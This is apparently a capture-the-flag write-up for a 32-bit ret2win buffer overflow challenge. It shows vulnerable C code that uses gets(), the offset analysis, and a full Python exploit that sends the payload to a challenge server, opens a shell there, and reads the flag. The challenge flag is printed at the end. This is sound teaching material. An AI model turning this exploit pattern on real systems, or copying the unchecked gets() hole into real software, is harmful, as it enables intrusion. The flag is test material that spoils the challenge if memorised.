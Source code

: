 # Baby Buffer Overflow - 32bit ✅

## Challenge Description
> ![image](https://github.com/user-attachments/assets/4d48194c-d8f7-4766-8078-737f5ad03d9a)


## Approach
1. The challenge gives us a binary and some source code to analyze.   

![image](https://github.com/user-attachments/assets/a19b9ac8-9c70-4947-9d9e-4da63035dad0)


2. From the code, we can see that the vuln function contains a buffer overflow vulnerability. It reads data into a 16-byte buffer using gets(), which doesn’t check for overflow—perfect for exploiting! This type of challenge is called `ret2win` (return to win(), which is a typical function name for such challenges).

```C
#include <stdio.h>
#include <unistd.h>

//gcc -fno-pie -no-pie -Wno-implicit-function-declaration -fno-stack-protector -m32 babybufov.c -o babybufov

void target(){
     puts("Jackpot!");
     char* executable="/bin/bash";
     char* argv[]={executable, NULL};
     execve(executable,argv,NULL);
}

int vuln(){
    char buf[16];
    gets(buf);
    return 0;
}

int main(){
    setbuf(stdin,NULL);
    setbuf(stdout,NULL);
    puts("Gimme some data!");
    fflush(stdout);
    vuln();
    puts("Failed... :(");
}
```
The goal is to overflow the buffer in vuln to overwrite the return address with the address of `target`. When vuln finishes, it will *return* to `target` instead of going back to `main`, executing the shell function in `target`.

2. Since this is a 32-bit binary, it relies on specific libraries:  

![image](https://github.com/user-attachments/assets/97d43191-7b3a-48e7-ad36-820fc3b40a1d)

To ensure it runs properly, I had to install the required 32-bit library:

```bash
sudo apt install musl:i386
```

3. Using IDA Pro, I found the address of the `target()`:

![image](https://github.com/user-attachments/assets/60b49796-2828-4831-9a33-921f641c6aca)

And the `vuln()` takes 24 characters. 

![image](https://github.com/user-attachments/assets/37331b01-a13a-4e0e-bf17-0fa3c3f12f70)

4. In a 32-bit architecture, whenever a buffer is overflown, the register eip gets loaded with the overwritten “saved return address” from stack. To exploit this vulnerability, we need to know the exact number of bytes to overflow the buffer and reach the return address. With a little debugging in GDB, I found that the offset is 28 bytes.

![image](https://github.com/user-attachments/assets/2fec7958-97fc-4a57-b96c-8a9b7d99971a)

5. Using the script below we can overflow and get to the `target`.

```python
import socket
import struct

# Address of the target function in little-endian format
target_addr = struct.pack('<I', 0x80491F5)  # Address of the target function

# Set the correct buffer size
buffer_size = 28  # Buffer size to reach the saved return address

# Craft the payload
payload = b'A' * buffer_size + target_addr

# Connect to the remote server
host = 'challenge.ctf.games'
port = 32336

with socket.socket(socket.AF_INET, socket.SOCK_STREAM) as s:
    s.connect((host, port))

    # Receive the initial message from the server
    initial_message = s.recv(1024).decode()
    print("Initial Message:", initial_message)

    # Send the exploit payload
    s.send(payload + b'\n')
    print("Payload Sent:", payload)

    # Send the command to list files
    command = b'ls\n'  # List files
    s.send(command)
    print("Command Sent:", command)

    # Wait for the response after the ls command
    while True:
        try:
            data = s.recv(1024).decode()
            if data:
                print("Response:", data)
                if "flag" in data:  # If flag file is listed, read it
                    # Now send command to read the flag
                    read_flag_command = b'cat flag\n'
                    s.send(read_flag_command)
                    print("Command to read flag sent.")
            else:
                print("No more data received.")
                break
        except Exception as e:
            print("Error:", e)
            break

```

6. Running the script triggers the overflow, and we jump straight to `target()`. The shell opens up, and we can easily grab the flag. 

![image](https://github.com/user-attachments/assets/4cef3cbc-f686-4dce-b048-9f65be320e85)

## Flag
flag{4cd3b4079393e861af489ca063373f98}




   



